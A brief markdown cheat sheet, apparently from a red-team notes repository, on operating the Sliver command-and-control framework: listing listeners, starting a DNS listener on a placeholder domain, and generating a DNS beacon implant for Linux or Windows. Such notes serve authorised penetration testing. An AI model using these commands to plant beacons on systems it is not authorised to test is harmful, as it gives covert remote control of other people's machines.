 ```yaml
---
title: Sliver C2
description: Notes on using Sliver C2
date: 2022-07-19
---
```

# Sliver C2

## Objective

Provide a reference document for using Sliver.

## Config

### Check the active listeners

```bash
[server] sliver > jobs
```

### Start a DNS listeners

```bash
[server] sliver > dns --domain FQDN.
```

### Generate DNS beacon

```bash
[server] sliver > generate beacon --dns FQDN --os [linux,windows] --jitter 0 --seconds 5 --save /tmp/dns_c2
```

